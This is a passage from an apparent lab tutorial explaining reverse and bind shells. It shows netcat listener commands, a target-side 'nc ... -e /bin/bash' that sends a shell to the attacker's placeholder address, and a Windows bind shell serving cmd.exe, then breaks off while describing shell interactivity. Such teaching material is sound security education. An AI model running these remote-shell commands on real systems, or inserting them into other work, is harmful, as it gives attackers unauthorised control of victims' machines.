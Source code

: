 **On the attacking machine:**
```bash
sudo nc -lvnp 443
```
Meanwhile, the target system sends a shell back by executing the following command:

**On the target:**
```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```
In practice, the reverse shell command on the target is often executed via a vulnerability such as code injection in a web application. In this setup, think of the attacker’s terminal as the listener (receiving the connection), and the target’s terminal as the system initiating the reverse shell.

![image](https://github.com/user-attachments/assets/a9b2c516-fd43-44f9-b0fb-8aa57a3e1239)

Once the reverse shell command is executed on the target, the listener on the attacker’s machine receives an incoming connection. At this point, the attacker can begin interacting with the target system. For instance, running the whoami command reveals that commands are being executed in the context of the target user. The key detail here is that the attacker is passively listening on their own machine, while the connection is actively initiated by the target.

**Example: Bind Shell**

While bind shells are less common than reverse shells, they are still highly useful in certain scenarios.

In this example, a Windows system is used as the target. The target first initiates a listener that is configured to launch cmd.exe. Once the listener is active, the attacker connects directly to the open port from their machine, gaining command-line access.

**On the target:**
```bash
nc -lvnp <port> -e "cmd.exe"
```
**On the attacking machine:**
```bash
nc MACHINE_IP <port>
```
![image](https://github.com/user-attachments/assets/63896153-7ac5-4d1a-ba95-6526e52bbd32)

As demonstrated, this method once again provides code execution on the remote system. It’s important to note that this process is not limited to Windows—bind shells work similarly across different operating systems.

The critical distinction here is that the listener is set up on the target, and the attacker’s machine is used to connect to it. This is the opposite of how reverse shells operate.

**Shell Interactivity**

The final concept relevant to this task is interactivity. Shells can be categorized as either interactive or non-interactive.

- Interactive Shells: These are the types of shells users are typically familiar with, such as PowerShell, Bash, Zsh, or sh. An interactive shell allows you to not only execute commands but also interact with programs as they run. For example, logging into a server using SSH presents a prompt where users can issue commands and receive immediate feedback—this is a classic example of an interactive shell.

